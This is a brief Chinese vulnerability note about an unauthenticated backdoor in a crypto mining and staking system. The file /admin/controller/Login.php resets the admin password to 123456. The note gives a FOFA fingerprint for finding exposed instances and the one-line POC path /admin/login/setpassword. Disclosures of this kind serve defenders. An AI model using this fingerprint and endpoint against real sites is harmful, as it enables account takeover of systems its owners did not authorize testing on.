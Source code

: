 # 某U挖矿质押单语言系统前台未授权修改管理员密码

位于 /admin/controller/Login.php 有个很明显操纵SQL的update操作，重置了管理员的密码为123456，且未设置鉴权，非常明显是个后门

## fofa

```java
"/static/index/css/login/framework7.ios.min.css"
```

## poc

```
/admin/login/setpassword
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408281245679.webp)



## 漏洞来源

- https://mp.weixin.qq.com/s/EL-1pxjTNUS5fAKVX1zlrQ